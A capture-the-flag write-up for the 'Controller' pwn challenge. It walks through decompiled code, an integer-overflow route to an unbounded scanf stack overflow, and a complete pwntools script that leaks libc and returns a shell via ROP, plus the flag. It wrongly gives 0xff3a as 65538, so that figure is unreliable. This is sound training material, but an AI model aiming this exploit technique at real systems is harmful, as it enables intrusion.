



<div align="center">
    <h1>Controller</h1>
     
</div>


---

```txt
The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!
This challenge will raise 33 euros for a good cause.
```

---

## Table of Contents

- [Table of Contents](#table-of-contents)
- [recon](#recon)
  - [code & behaviour](#code--behaviour)
    - [`main`](#main)
    - [`calculator`](#calculator)
    - [`calc`](#calc)
  - [vulns](#vulns)
    - [buffer overflow](#buffer-overflow)
- [exploit](#exploit)
  - [script](#script)
  - [run](#run)

## recon

### code & behaviour

A bit of static & dynamic reversing gives us the following *major* functions and their respective behaviour:

#### `main`

```c
undefined8 main(void)
{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  calculator();
  return 0;
}
```



#### `calculator`

```c
void calculator(void)
{
  char local_28 [28];
  int local_c;
  
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf("%s",local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

#### `calc`

```c
uint calc(void)
{
  ushort uVar1;
  float fVar2;
  uint local_18;
  uint local_14;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&local_14,&local_18);
  local_10 = menu();
  if ((0x45 < (int)local_14) || (0x45 < (int)local_18)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
  }
  if (local_10 == 2) {
    local_c = sub(local_14,local_18,local_18);
    printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
    return local_c;
  }
  if (local_10 < 3) {
    if (local_10 == 1) {
      local_c = add(local_14,local_18,local_18);
      printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
  }
  else {
    if (local_10 == 3) {
      uVar1 = mult(local_14,local_18,local_18);
      local_c = (uint)uVar1;
      printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
    if (local_10 == 4) {
      fVar2 = (float)divi(local_14,local_18,local_18);
      local_c = (uint)(long)fVar2;
      printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar2 & 0xffffffff);
      return local_c;
    }
  }
  printstr("Invalid operation, exiting..\n");
  return local_c;
}
```



### vulns

This first `pwn` binary has one serious vulnerability that we can exploit later on.

#### buffer overflow

This one can be found in the `calculator` function. If we manage to find an allowed mathematical operation that results in `0xff3a` (= `65538`), we will be prompted to enter a message for a problem report. Reading user input is achieved via `scanf`'s `%s` format string, without specifying a size limit...

```c
...
  if (local_c == 0xff3a) {
...
    __isoc99_scanf("%s",local_28);
...
```

## exploit

Ok. Step-by-step:

1. Use something like `0 - -65538` to achieve the desired result of `65538`. Abuse the buffer overflow to make `puts` leak an address from the GOT, allowing us to compute `libc`'s base in memory. Return to `calculator` after the leak.
2. Now, overwrite the stored instruction pointer once again (using the same tactics as in step 1) - this time, however, overwrite it with a ROP chain that will pop the address of `/bin/sh` in `libc`'s memory space into the `rdi` register and return to `system`.
3. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *
from argparse import ArgumentParser

# ================================== #
ODD: int        = 0xff3a
RIP_OFF: int    = 0x28
# ================================== #

def overflow(n: int) -> int:
    return pow(2,32) - n

def do_overflow(r: tubes.tube.tube) -> None:
    r.recvuntil(b'recources: ')
    r.sendline(f'0 {overflow(ODD)}'.encode())
    r.recvuntil(b'> ')
    r.sendline(b'2')

def main():
    context.clear(arch='amd64')

    parser: ArgumentParser = ArgumentParser()
    parser.add_argument('--debug', action='store_true', help='Debug?')
    parser.add_argument('--remote', action='store_true', help='Remote?')
    args = parser.parse_args()

    p: ELF = ELF('./controller')

    if args.remote:
        l: ELF = ELF('./libc.so.6') 
        r = remote('138.68.147.232', 31712)
    else:
        l: ELF = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
        r = process(p.path)

    if args.debug:
        gdb.attach(r, 'b *calculator+56')

    do_overflow(r)

    leakr: ROP = ROP(p)
    leakr.puts(p.sym['got.puts'])
    leakr.call(p.sym['calculator'])

    r.recvuntil(b'> ')
    r.sendline(b'y'.ljust(RIP_OFF, b'x') + leakr.chain())

    r.recvuntil(b'reported!\n')
    puts_addr: int = u64(r.recvuntil(b'\n').strip().ljust(8, b'\x00'))
    print(f'[*] Leaked puts@got = 0x{puts_addr:x} ... ')
    l.address = puts_addr - l.sym['puts']
    print(f'[*] Calculated libc base = 0x{l.address:x} ... ')
    do_overflow(r)
    
    drop: ROP = ROP(p)
    drop.call(drop.ret.address)
    drop.call(l.sym['system'], [next(l.search(b'/bin/sh\x00')),])
    print(f'[*] Sending ROP payload: ')
    print(drop.dump())

    r.recvuntil(b'> ')
    r.sendline(b'y'.ljust(RIP_OFF, b'x') + drop.chain())

    r.interactive()

if __name__ == '__main__':
    main()
```

### run



<h4 align="center">
    CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
</h4>


---

... m4ttm00ny (April 2021)
